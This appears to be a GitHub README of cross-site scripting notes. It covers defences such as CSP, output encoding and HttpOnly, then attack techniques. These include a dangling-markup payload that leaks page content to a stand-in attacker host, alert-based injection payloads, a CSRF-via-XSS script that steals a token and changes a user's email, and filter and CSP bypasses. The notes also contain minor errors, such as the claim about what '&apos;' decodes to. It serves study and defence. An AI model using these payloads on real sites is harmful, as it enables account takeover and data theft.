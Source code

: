 # How to prevent XSS:

To prevent XSS in HTTP responses that aren't intended to contain any HTML or JavaScript, you can use 
the **Content-Type** and **X-Content-Type-Options** headers to ensure that browsers interpret the responses in the way you intend.
Use **Content Security Policy(CSP)** to reduce the severity of any XSS vulnerabilities that still can occur. 

# CSP Example
```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; frame-src 'none'; base-uri 'none';
```
CSP often block script resources, but allow img element to make requests.
CSP protect also from clickjacking.

# Content-Type explaination: 
XSS only applies to documents that are capable of running active script content in the first place.

A page with the MIME type application/json can't contain active content. To the browser it's just data. The situation would be similar with text/plain, 
text/javascript, image/jpeg, etc.

XSS would be possible with a MIME type of e.g. text/html, image/svg+xml, text/xml and many others. In some cases, vendor-related types such as 
application/x-shockwave-flash may have an XSS potential, too.

# Encode Output Data and validate input:

In an HTML context, you should convert non-whitelisted values into HTML entities:

    < converts to: &lt;
    > converts to: &gt;

In a JavaScript string context, non-alphanumeric values should be Unicode-escaped:

    < converts to: \u003c
    > converts to: \u003e

If a user can supply Javascript on the URL, validate the input to be sure that it use a safe protocol.
They can use harmful protocol like javascript and data.

Don't try to do a blacklist.

# Template engine:

There are some server side template engine that defines they're own way to escape. Ex:
```
{{ user.firstname | e('html') }}
```
## HttpOnly
```
HttpOnlySet-Cookie: sessionid=QmFieWxvbiA1; HttpOnly
```
If the HttpOnly flag is included in the HTTP response header, the cookie cannot be accessed through client side script (if the browser supports this flag).
Using the HttpOnly flag when generating a cookie helps mitigate the risk of client side script accessing the protected cookie.

## Dangling markup injection
Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.

Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
```
<input type="text" name="input" value="CONTROLLABLE DATA HERE">
```
In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, 
content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```
"><img src='//attacker-website.com?
```
Note that the attacker's payload doesn't close the src attribute, which is left "dangling". When a browser parses the response, 
it will look ahead until it encounters a single quotation mark toterminate the attribute. 
Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. 
Any non-alphanumeric characters, including newlines, will be URL-encoded.

The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. 
Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.

Any attribute that makes an external request can be used for dangling markup. 

## XSS Payload

-You can execute JS in href att. with **javascript:** ex:
```
javascript:alert(1)
```
-Try to use ```; alert() ;``` to inject XSS on Javascript.
Result:
``` 
    <script>
            var searchTerms = 'something'; alert(1) ; var myvar = '1';
            document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
```

# CSRF using XSS: 
```
<script>
var req = new XMLHttpRequest();//It depends on the api, you can try with fetch()
req.onload = handleResponse;
req.open('get','/data',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; //take the users CSRF token
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/data/form', true);
    changeReq.send('csrf='+token+'&email=test@test.com') //Append CSRF token and change email
};
</script>
```
# Other Bypass

-You can try to bypass html escape with the svg element.(That defines vector-based graphics)

-If the WAF prevents your requests from reaching the website, you can try to throw an exception:
```
onerror=alert;throw 1
```
-When the browser has parsed out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further.
You can try to bypass input validation HTML encoding the special carachters. 
```
&apos;
```
will be converted to
```
"
```
 and you will bypass the validation. 

-Sometimes you can find the report-uri header, that reflect the actual policy of CSP.
Inject a valid script-src-elem can bypass the CSP overwriting existing script-src directives.

# Common sources(where the code take your's input):
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
```

# Common sink:
```
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()  (for Ajax request-header manipulation)
JSON.parse()
```
